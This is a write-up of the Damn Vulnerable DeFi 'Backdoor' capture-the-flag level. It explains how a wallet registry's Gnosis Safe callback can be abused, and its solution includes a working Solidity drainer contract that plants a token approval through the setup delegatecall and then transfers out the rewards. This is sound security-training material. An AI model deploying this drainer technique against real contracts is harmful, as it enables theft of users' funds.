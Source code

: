 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 11: Backdoor'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our tenth challenge is called 'backdoor' and it comes with the following prompt:

```
To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.

To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.

Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.

Your goal is to take all funds from the registry. In a single transaction.
```

We have to find a way to take the funds that are supposed to go to Alice, Bob, Charlie and David.

The contract for this challenge is located in contracts/backdoor/. The contract source code can be found below:

<details>
<summary> WalletRegistry.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";

/**
 * @title WalletRegistry
 * @notice A registry for Gnosis Safe wallets.
           When known beneficiaries deploy and register their wallets, the registry sends some Damn Valuable Tokens to the wallet.
 * @dev The registry has embedded verifications to ensure only legitimate Gnosis Safe wallets are stored.
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract WalletRegistry is IProxyCreationCallback, Ownable {
    
    uint256 private constant MAX_OWNERS = 1;
    uint256 private constant MAX_THRESHOLD = 1;
    uint256 private constant TOKEN_PAYMENT = 10 ether; // 10 * 10 ** 18
    
    address public immutable masterCopy;
    address public immutable walletFactory;
    IERC20 public immutable token;

    mapping (address => bool) public beneficiaries;

    // owner => wallet
    mapping (address => address) public wallets;

    constructor(
        address masterCopyAddress,
        address walletFactoryAddress, 
        address tokenAddress,
        address[] memory initialBeneficiaries
    ) {
        require(masterCopyAddress != address(0));
        require(walletFactoryAddress != address(0));

        masterCopy = masterCopyAddress;
        walletFactory = walletFactoryAddress;
        token = IERC20(tokenAddress);

        for (uint256 i = 0; i < initialBeneficiaries.length; i++) {
            addBeneficiary(initialBeneficiaries[i]);
        }
    }

    function addBeneficiary(address beneficiary) public onlyOwner {
        beneficiaries[beneficiary] = true;
    }

    function _removeBeneficiary(address beneficiary) private {
        beneficiaries[beneficiary] = false;
    }

    /**
     @notice Function executed when user creates a Gnosis Safe wallet via GnosisSafeProxyFactory::createProxyWithCallback
             setting the registry's address as the callback.
     */
    function proxyCreated(
        GnosisSafeProxy proxy,
        address singleton,
        bytes calldata initializer,
        uint256
    ) external override {
        // Make sure we have enough DVT to pay
        require(token.balanceOf(address(this)) >= TOKEN_PAYMENT, "Not enough funds to pay");

        address payable walletAddress = payable(proxy);

        // Ensure correct factory and master copy
        require(msg.sender == walletFactory, "Caller must be factory");
        require(singleton == masterCopy, "Fake mastercopy used");
        
        // Ensure initial calldata was a call to `GnosisSafe::setup`
        require(bytes4(initializer[:4]) == GnosisSafe.setup.selector, "Wrong initialization");

        // Ensure wallet initialization is the expected
        require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");
        require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");       

        // Ensure the owner is a registered beneficiary
        address walletOwner = GnosisSafe(walletAddress).getOwners()[0];

        require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");

        // Remove owner as beneficiary
        _removeBeneficiary(walletOwner);

        // Register the wallet under the owner's address
        wallets[walletOwner] = walletAddress;

        // Pay tokens to the newly created wallet
        token.transfer(walletAddress, TOKEN_PAYMENT);        
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
https://blog.openzeppelin.com/backdooring-gnosis-safe-multisig-wallets/
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
Other useful resources:
https://github.com/safe-global/safe-contracts/blob/186a21a74b327f17fc41217a927dea7064f74604/contracts/proxies/GnosisSafeProxyFactory.sol#L82-L91
https://github.com/safe-global/safe-contracts/blob/892448e93f6203b530630f20de45d8a55fde7463/contracts/GnosisSafe.sol#L76-L100
https://github.com/safe-global/safe-contracts/blob/c36bcab46578a442862d043e12a83fec41143dec/contracts/base/ModuleManager.sol#L20-L26
https://github.com/safe-global/safe-contracts/blob/v1.3.0/test/core/GnosisSafe.ModuleManager.spec.ts
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
This one was, in my opinion, significantly more difficult than the previous levels. It required uncovering a known exploitable issue with legitimate GnosisSafe deployments. Additionally, debugging was not a pleasant experience due to the lack of error messages for reverts that occurred when a new GnosisSafe proxy was created. It took far longer to chef up the attacking contract than it did to figure out what the actual problem was. 

After reading the contract, I didn't see an obvious vulnerability. I began to do some background research on Gnosis multisig wallets, and at one point I came across this OpenZeppelin blog post: https://blog.openzeppelin.com/backdooring-gnosis-safe-multisig-wallets/. I highly recommend reading this post if you haven't already. It contains all of the info needed to figure out how to pass this level. Essentially, the issue arises because of two unique design choices:
1. Gnosis safe multisigs allow for the creation of 'modules' which are actions that can be executed without the consent of the individual signers (effectively bypassing the multisig requirements).
2. During Gnosis safe multisig proxy creation, the deployer is able to pass in arbitrary data to a delegatecall within the multisig contract.

By combining these two, we can see that it is possible for a deployer to set up a module in the newly deployed Gnosis safe multisig that can then be executed without the owner's permission. Tying this back to the challenge, it becomes clear that the registry pays out the proxy for newly created Gnosis safe multisigs as long as the owner of the multisig is part of the registry. If the deployer is using the legitimate singleton address and factory for deployment, they can be anybody. Since we can be the deployer and the deployer has the ability to exploit the two issues stated above, we can 'backdoor' these wallets by setting up a module during deployment.

The full attack path looks like this:
1. Create a data payload that will call the setup function on the newly created Gnosis safe multisig. We will pass into this both our malicious contract's address and the encoded data for any function of our choice (remember, this function on our contract will be delegate called by the newly created multisig).
2. Call `createProxyWithCallback` with the singleton address, our data payload, a random nonce, and the registry so that it can process the callback.
3. During creation of the new multisig, the proxy will call the `setup()` function for the new multisig which will in turn make a delegatecall to our contract and call our module (which simply executes an approval to spend DVTs using the multisig as the msg.sender).
4. The deployment will complete and pass all of the necessary checks (its owner will truly be either Alice, Bob, Charlie or David). Payment from the registry will be sent to the multisig.
5. In the same transaction, we will abuse our approval form the module to call `transferFrom()` and take the DVTs that were sent to the multisigs


</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
     /** CODE YOUR EXPLOIT HERE */

    const WalletRegistryAttackFactory = await ethers.getContractFactory('WalletRegistryDrainer', deployer);
    this.wr_attacker = await WalletRegistryAttackFactory.deploy(this.walletFactory.address, this.walletRegistry.address, this.token.address);

     await this.wr_attacker.attack(users, this.masterCopy.address, this.token.address, attacker.address);
    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title WalletRegistryDrainer.sol
 * @author securerodd
 */
 import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
 import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
 import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

 interface IWalletFactory {
   function createProxy(address, bytes memory) external;
   function createProxyWithCallback(address, bytes memory, uint256, IProxyCreationCallback callback) external returns (GnosisSafeProxy);
}

contract WalletRegistryDrainer {
    IWalletFactory walletFactory;
    address walletRegistry;
    IERC20 token;

    constructor(address _wallet_factory, address _wallet_registry, address _token) {
        walletFactory = IWalletFactory(_wallet_factory);
        walletRegistry = _wallet_registry;
        token = IERC20(_token);
    }
    
    function attack(address[] calldata _owners, address _singleton, address _tokenAddress, address _attacker) external {
        bytes memory data = abi.encodeWithSignature("setUpModule(address,address)", _tokenAddress, address(this));
        uint256 owners_length = _owners.length;
        for (uint256 i; i < owners_length;) {
            address users = _owners[i];
            address[] memory user = new address[](1);
            user[0] = users;

            bytes memory proxyInitData = abi.encodeWithSignature(
                "setup(address[],uint256,address,bytes,address,address,uint256,address)",
                user,
                1,
                address(this),
                data,
                address(0),
                address(0),
                0,
                address(0)
            );

            GnosisSafeProxy GSP = walletFactory.createProxyWithCallback(_singleton, proxyInitData, i, IProxyCreationCallback(walletRegistry));
            token.transferFrom(address(GSP), _attacker, 10 ether);

            unchecked { ++i; }
        }
    }

    function setUpModule(address _token, address _contract) external {
        IERC20(_token).approve(_contract, 10 ether);
    }

}
```
</div>
</details>
